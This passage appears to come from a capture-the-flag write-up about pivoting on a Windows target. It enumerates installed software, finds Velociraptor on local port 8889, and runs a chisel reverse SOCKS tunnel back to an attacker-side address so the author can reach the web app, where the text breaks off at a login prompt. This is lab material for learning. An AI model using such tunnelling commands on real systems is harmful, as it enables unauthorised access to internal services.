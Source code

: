 ```powershell
d-----          9/6/2024   5:38 AM                IIS                                                                  
d-----         8/31/2024   1:32 AM                Internet Explorer                                                    
d-----          5/8/2021   1:20 AM                ModifiableWindowsApps                                                
d-----          9/6/2024   8:35 AM                Velociraptor                                                         
d-----          9/6/2024   8:34 AM                VelociraptorServer                                                  
d-----          9/7/2024   5:40 AM                VMware                                                               
d-----         8/31/2024   1:55 AM                Windows Defender                                                     
d-----         8/31/2024   1:32 AM                Windows Defender Advanced Threat Protection                          
d-----         8/31/2024   1:32 AM                Windows Mail                                                         
d-----         8/31/2024   1:32 AM                Windows Media Player                                                 
d-----          5/8/2021   2:35 AM                Windows NT                                                           
d-----          3/2/2022   7:58 PM                Windows Photo Viewer                                                 
d-----          5/8/2021   1:34 AM                WindowsPowerShell
```
After some google, ```Velociraptor is an advanced digital forensic and incident response tool that enhances your visibility into your endpoints``` 

I also found this [Write up THM Velociraptor](https://medium.com/@laupeiip/tryhackme-velociraptor-write-up-506b001e9cd8)

So let's see if on the machine there is a 8889 port :

```powershell
netstat -ano

  TCP    127.0.0.1:8001         0.0.0.0:0              LISTENING       2564
  TCP    127.0.0.1:8001         127.0.0.1:49692        ESTABLISHED     2564
  TCP    127.0.0.1:8003         0.0.0.0:0              LISTENING       2564
  TCP    127.0.0.1:8889         0.0.0.0:0              LISTENING       2564
```
Nice let's make a socks to forward this :

```console
chisel server -p 9999 --reverse # on linux
./chisel.exe client 10.8.2.163:9999 R:socks # on windows
```
Now do ```proxychains -q firefox``` and go to ```127.0.0.1:8889```

But the webapp is asking to us some credentials :

If we digging deeper on the target machine we can find this : 
